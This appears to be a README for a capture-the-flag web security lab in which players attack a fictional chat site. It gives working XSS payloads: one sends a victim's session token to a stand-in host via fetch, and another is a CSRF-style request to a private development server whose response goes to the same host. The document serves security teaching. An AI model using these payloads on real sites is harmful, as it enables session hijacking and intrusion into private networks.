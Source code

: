 ## Task flow
### Task 0: Stealing the session token
Player logs in using credentials provided in the e-mail. After that, the chatting site is presented and user is able to read and send messages.
 - **Scenario:**:
    In this task player has to steal the session token of the person that he's chatting with (Robert Carlson). Player's messages are read once per minute. User can achieve this goal by exploiting Cross-Side Scripting (XSS) vulnerability.
    Exemplary payload:
    ```javascript
    <img/src/onerror=fetch('http://example.com/?cookie='+sessionStorage.getItem('token'));>
    ```
    where example.com can be replaced by url to webhook created, for example, on https://webhook.site
 - **Objective:**: The token is can be utilized to log in as other user by replacing player's token with the token obtained by xss. When player is logged in as other user, he can read his conversations. One of them will contain a flag.

### Task 1: Accessing resource in victim's private network
Having victim's conversations, player's goal is to access a private resource mentioned in one of them using Cross-Site Request Forgery attack.
 - **Scenario:**:
    One of Robert Carlson's conversations his friend encourages Robert to test the website that he's developing. We can see that this is not a public domain, so both of them need to share the same private network. We can utilize CSRF technique by constructing new XSS payload, that is connecting to the private server, and sending the server's response back to our webhook.
    Exemplary payload:
    ```javascript
    <img/src/onerror="
    const r = new XMLHttpRequest();
    r.open('GET', 'http://devserver.jake.local',false);
    r.send(null);
    const x =r.responseText;
    fetch('http://example.com/?cookie=' +r.responseText)">
    ```

 - **Objective:** Get a response from the private development server.
